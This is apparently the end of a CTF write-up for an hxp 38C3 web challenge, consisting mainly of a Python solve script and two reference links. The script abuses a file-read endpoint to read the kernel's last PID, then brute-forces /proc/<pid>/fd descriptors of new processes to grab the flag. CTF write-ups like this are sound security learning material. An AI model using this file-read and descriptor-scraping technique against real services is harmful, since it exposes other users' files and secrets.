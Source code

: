 ```py
import requests, time, threading, os

HOST = "http://49.13.169.154:8088"
TIMEOUT = 180

last_pid = 0

s = requests.Session()

def worker(pid):
    now = time.time()
    s.get(HOST)

    time.sleep(1 / 10)

    n = 3
    while True:
        try:
            r = s.get(HOST + "/get", params={
                "name": f"/proc/{pid}/fd/{n}",
                })
            if "hxp{" in r.text:
                print(r.text)
                with open(f"flag_{pid}.txt", "w+") as f:
                    f.write(r.text)
                os.exit(0)
            if "Open :(" not in r.text:
                print(f"[{pid}] {n} :: {r.text}")
                with open(f"output.txt", "a+") as f:
                    f.write(f"[{pid}] {n} :: {r.text}\n")
            n += 1
            if n > 100:
                n = 3
                continue
            if time.time() - now > TIMEOUT:
                print(f"[{pid}] TIMEOUT")
                return
            time.sleep(1 / 10)
        except Exception as e:
            continue

while True:
    s.get(HOST)

    assert "session" in s.cookies

    time.sleep(1 / 10)

    r = s.get(HOST + "/get", params={
        "name": "/proc/sys/kernel/ns_last_pid",
        })
    try:
        pid = int(r.text.strip())
    except:
        print(f"[-] Error: {r.text}")
        continue
    if pid == last_pid:
        continue
    print(f"[*] PID changed {last_pid} -> {pid}")
    last_pid = pid
    for i in range(5):
        threading.Thread(target=worker, args=(pid+i,)).start()
```

[^1]: https://www.sonarsource.com/blog/why-code-security-matters-even-in-hardened-environments/
[^2]: https://hxp.io/blog/114/hxp-38C3-CTF-Fajny-Jagazyn-Wartoci-Kluczy/
